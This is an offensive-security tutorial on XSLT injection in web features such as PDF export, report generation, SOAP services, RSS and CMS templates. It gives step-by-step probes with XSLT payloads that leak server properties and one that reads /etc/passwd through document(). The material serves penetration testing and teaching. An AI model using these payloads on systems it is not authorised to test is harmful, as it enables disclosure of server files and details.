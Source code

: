```yaml
---
title: XSLT Injection in Web Applications Context
description: Explore how XSLT injection affects web applications, with exploitation
  techniques and common vulnerable features.
keywords:
- XSLT injection
- XML vulnerabilities
- web application security
- PDF generation attacks
- report generation vulnerabilities
- SOAP service exploitation
- data transformation APIs
- CMS XSLT injection
- RSS feed transformation
- server-side XSLT exploitation
---
```


# Application Context

## Context

The goal of this article is to demonstrate how XSLT injection vulnerabilities can be exploited within various web application contexts. XSLT injection is a technique used in offensive cybersecurity to manipulate or execute malicious code through unsanitized user input in XSLT stylesheets. To fully understand this topic, readers need prior knowledge of how XSLT processing works, the structure and parsing of XML, and the basic architecture of web applications, including general techniques for XSLT injection.

## Theory

### XSLT Injection in Web Application Features

XSLT injection vulnerabilities occur when user-supplied input is unsafely embedded into XSLT stylesheets processed by the server. This often happens in application features which transform or generate content using XML or XSLT provided by users. An attacker can exploit these vulnerabilities by identifying entry points where their input can affect XSLT processing, injecting malicious XSLT code, and triggering the execution to achieve undesirable effects.

### Common Vulnerable Application Contexts

Various application contexts are prone to XSLT injection due to their reliance on dynamic transformations and rendering of user-generated content.

- **PDF Generation**: Features allowing users to export data into PDF formats, where they can upload XML or XSLT, present opportunities for injection attacks.
- **XML Report Generation**: Custom reporting capabilities that use XML/XSLT templates can be targeted to alter data transformations maliciously.
- **Data Transformation APIs**: Endpoints converting XML to HTML or JSON through XSLT can be exploited if they process untrusted input.
- **SOAP Web Services**: Transformations applied to SOAP messages with XSLT are vulnerable to injection by crafted payloads.
- **RSS Feed Transformation**: Applications using XSLT to render RSS feeds risk manipulation if they do not validate input sources.
- **CMS Systems**: Content management systems that permit custom XSLT for rendering content may give attackers a path to introduce malicious stylesheets.

### Attacker Mindset: Targeting XSLT in Application Workflows

An offensive strategy includes mapping application features that accept XML/XSLT input or templates. The attacker then probes these features to find reflection or execution of injected XSLT expressions, leveraging business logic, such as report generation or document exports, to trigger these transformations maliciously.

## Practice

### Exploiting PDF Generation via XSLT Injection

1. Identify features for PDF export or report generation that accept XML or XSLT uploads.
2. Inject the following XSLT payload to extract the server operating system's name:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('os.name')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit the crafted payload and download the resulting PDF.
4. Review the PDF to detect any injected output such as the server OS name.

### Exploiting XML Report Generation with XSLT Injection

1. Locate report generation functions that accept user-supplied XML or XSLT templates.
2. Use the following payload to attempt reading sensitive server-side files:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="document('file:///etc/passwd')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Trigger the report generation and check the output for contents of the targeted file.

### Targeting Data Transformation APIs for XSLT Injection

1. Identify API endpoints that convert XML to other formats using XSLT.
2. Inject the following payload to gather server user information from API responses:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('user.name')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit this payload and analyze the API's response for sensitive information returns.

### Exploiting SOAP Web Services with XSLT Injection

1. Discover SOAP endpoints where XSLT transforms messages.
2. Use this payload to determine the Java runtime version in the SOAP response:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('java.version')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Inject this payload within a SOAP request and verify the response for the extracted data.

### Exploiting RSS Feed Transformation in Web Applications

1. Identify features in applications using XSLT for RSS feed imports or transformations.
2. Inject this payload to extract the architecture of the server into the feed:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('os.arch')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit the payload and closely inspect the transformed feed output for leaked data.

### Compromising CMS Systems via Custom XSLT Injection

1. Identify CMS plugins/modules allowing custom XSLT for rendering content.
2. Inject the following payload to access and present the server's working directory:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('user.dir')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Use the CMS to preview or publish the content and look for leaking server data.

## Tools

- **Burp Suite**
- **Postman**
- **curl** 

This document provides a practical framework for understanding and exploiting XSLT injection in various application contexts, allowing attackers to leverage weak points in web services that use or transform XML input in insecure ways.